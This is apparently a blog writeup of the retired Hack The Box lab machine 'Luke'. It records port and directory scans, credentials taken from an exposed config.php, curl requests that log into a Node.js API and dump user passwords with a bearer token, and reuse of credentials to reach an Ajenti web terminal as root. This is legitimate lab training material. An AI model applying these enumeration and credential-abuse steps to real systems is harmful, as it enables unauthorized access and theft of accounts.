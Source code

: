 ```yaml
---
layout: post
title:  "HTB - Luke"
date:   2019-09-01 20:00 +0100
tags: writeups
---
```

Writeup for the retired HTB machine Luke  
Link: https://www.hackthebox.eu/home/machines/profile/190  
IP: 10.10.10.137

<!--more-->

## Recon
```
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
22/tcp   open  ssh?  
3000/tcp open  http    Node.js Express framework  
8000/tcp open  http    Ajenti http control panel  
```
The FTP holds a note from Derry to Chihiro.

### Dirb scan for main
```
START_TIME: Sun Sep  1 15:04:07 2019
URL_BASE: http://10.10.10.137/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

---- Scanning URL: http://10.10.10.137/ ----
==> DIRECTORY: http://10.10.10.137/css/                                                              
+ http://10.10.10.137/index.html (CODE:200|SIZE:3138)                                                
==> DIRECTORY: http://10.10.10.137/js/                                                               
+ http://10.10.10.137/LICENSE (CODE:200|SIZE:1093)                                                   
+ http://10.10.10.137/management (CODE:401|SIZE:381)                                                 
==> DIRECTORY: http://10.10.10.137/member/                                                           
==> DIRECTORY: http://10.10.10.137/vendor/   
```

### Dirb scan for 3000:
```
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

---- Scanning URL: http://10.10.10.137:3000/ ----
+ http://10.10.10.137:3000/login (CODE:200|SIZE:13)                                                  
+ http://10.10.10.137:3000/users (CODE:200|SIZE:56) 
```

### gobuster for main
Important: **Check for extensions! (-x)**  
`gobuster dir -u http://10.10.10.137 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html`  
```
===============================================================
2019/09/01 15:58:46 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/member (Status: 301)
/management (Status: 401)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/LICENSE (Status: 200)
Progress: 163025 / 220561 (73.91%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
```

This yields `http://10.10.10.137/config.php`, which holds creds:
`root:Zk6heYCyv6ZE9Xcg`
These creds can be stuffed into :3000/login, but using username *root* doesn't work... but *admin* does :D

`curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' http://10.10.10.137:3000/login`

The resulting token can be used to enumerate users:
`curl -s -X GET -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer INSERTTOKENHERE' http://10.10.10.137:3000/users`

```json
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

By enumerating everything on port 3000, one can observe that the endpoint `/user/{username}` exists. So we can query for every single user:

`curl -s -X GET -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer INSERTTOKENHERE' http://10.10.10.137:3000/users/admin`  
which yields:
```json 
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```
with these, we can try to login to IP/management and find a config.json. That one holds credentials as well (looks like munin?)  
`root:KpMasng6S5EtTy9Z`  
With that credentials, one can login to :8000 (Ajenti).

Ajenti provides a comfortable web interface for management - including a *Terminal* (located under *Tools*).  
Opening that Terminal yields a root shell on the system. Done!
